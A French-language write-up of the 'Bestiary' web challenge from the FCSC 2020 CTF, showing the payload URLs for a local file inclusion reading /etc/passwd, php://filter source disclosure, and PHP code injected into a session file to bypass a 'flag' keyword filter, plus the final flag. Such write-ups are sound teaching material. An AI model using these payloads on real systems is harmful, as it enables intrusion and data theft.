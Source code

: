 ```yaml
---
title: FCSC 2020 - Web - Bestiary
excerpt: Write-up du challenge web Bestiary du France Cybersecurity Challenge 2020
tags: [CTF, FCSC, writeup, web]
categories: Write-ups
comments: true
---
```


<img src="/img/fcsc_logo.png" width="300" class="center-image">
Le France CyberSecurity Challenge est une compétition en ligne organisée par l’Agence National de la Sécurité des Systèmes d’Informations (ANSSI). Ce CTF a pour but de préselectionner 30 joueurs: 15 juniors (entre 15 et 20 ans) et 15 seniors (entre 21 et 25 ans).
<hr>
![Challenge](/img/fcsc_bestiary.PNG){: .center-image} 

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

![Home](/img/fcsc_home.PNG){: .center-image} 

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : 
```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd
```

![LFI](/img/fcsc_lfi_etc.PNG){: .center-image}

On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.
```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```

![Base](/img/fcsc_bestiary_base.PNG){: .center-image}

On décode tout ça en base64 et on obtient le code source la page `index.php` :
```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*

![Session](/img/fcsc_bestiary_session.PNG){: .center-image}

On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 
```php
<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>
```  
J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : 
```
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E
```

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.
```
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a
```

On affiche les sources et voilà !  

![FLAG](/img/fcsc_bestiary_flag.PNG){: .center-image}

Flag : FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}
